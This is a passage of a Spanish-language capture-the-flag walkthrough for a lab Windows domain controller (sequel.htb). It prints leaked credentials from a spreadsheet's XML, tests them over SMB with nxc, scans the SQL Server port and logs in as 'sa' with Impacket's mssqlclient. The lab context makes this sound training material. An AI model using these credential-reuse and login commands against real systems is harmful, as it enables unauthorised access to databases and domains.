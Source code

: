```xml
<si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si>

<si><t xml:space="preserve">NULL</t></si>
<si><t xml:space="preserve">sa@sequel.htb</t></si>
<si><t xml:space="preserve">sa</t></si>
<si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si>
</sst>
```

Veamos que hacemos con esto que acabamos de obtener.

## Intrusión

### sa - dc01.sequel.htb

Probando las credenciales que obtuvimos, veremos que solamente un par es válido:

```bash
❯ nxc smb 10.10.11.51 -u oscar -p '86LxLBMgEWaKUnBG' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

Sin embargo, hay algo más interesante que esto, y es que el último par del archivo parece ser del usuario `sa` de una instancia de SQL Server, y dicho puerto está abierto en la máquina:

```bash
❯ nmap -sS -Pn -p 1433 -vvv -n 10.10.11.51
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 10:35 -04
Initiating SYN Stealth Scan at 10:35
Scanning 10.10.11.51 [1 port]
Discovered open port 1433/tcp on 10.10.11.51
Completed SYN Stealth Scan at 10:35, 0.10s elapsed (1 total ports)
Nmap scan report for 10.10.11.51
Host is up, received user-set (0.083s latency).
Scanned at 2025-05-26 10:35:03 -04 for 0s

PORT     STATE SERVICE  REASON
1433/tcp open  ms-sql-s syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)
```

Si probamos las credenciales de `sa` acá, veremos que...

```bash
❯ mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb' 
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```
